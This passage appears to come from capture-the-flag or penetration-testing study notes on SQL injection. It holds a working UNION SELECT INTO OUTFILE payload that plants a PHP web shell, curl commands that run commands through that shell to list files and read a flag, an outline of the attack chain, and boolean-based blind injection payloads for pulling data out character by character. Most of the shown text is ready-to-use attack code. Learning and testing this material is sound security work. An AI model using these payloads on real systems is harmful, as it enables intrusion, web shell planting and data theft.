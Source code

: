 **5. Web Shell Deployment:**
```sql
' UNION SELECT "",'<?php system($_REQUEST["cmd"]); ?>', "", "", "" INTO OUTFILE '/var/www/html/dashboard/shell.php'-- -
```

**6. Remote Code Execution:**
```bash
curl "http://target/dashboard/shell.php?cmd=ls+/" | sed -e '1,2d'
curl "http://target/dashboard/shell.php?cmd=cat+/flag_*.txt" | sed -e '1,2d'
```

### Key Learning Points

**Practical Considerations:**
- **Directory permissions matter** → `/var/www/html/dashboard/` vs `/var/www/html/`
- **Clean output techniques** → `""` for empty columns, `sed -e '1,2d'` for curl
- **URL encoding** → `+` for spaces in commands
- **File path discovery** → Root directory flag location

**Attack Chain Dependencies:**
1. **Authentication bypass** → Access to vulnerable functionality
2. **SQL injection discovery** → Entry point for exploitation  
3. **Column detection** → Required for UNION queries
4. **Privilege enumeration** → Determines attack capabilities
5. **File operations** → Enables web shell deployment
6. **RCE execution** → Achieves ultimate goal

**Success Indicators:**
- ✅ No SQL errors = Operations succeeded
- ✅ Clean web shell output = Proper deployment
- ✅ Command execution = RCE achieved
- ✅ Flag content = Mission accomplished

---

## Blind SQL Injection

### Boolean-based Blind
```sql
-- Basic true/false test
admin' and 1=1-- -    (true - normal response)
admin' and 1=2-- -    (false - different response)

-- Database version testing
admin' and @@version like '8%'-- -
admin' and length(database())=8-- -

-- Character-by-character extraction
admin' and substring(database(),1,1)='u'-- -
admin' and ascii(substring(database(),1,1))=117-- -

-- Table existence testing
admin' and (select count(*) from users)>=0-- -
```
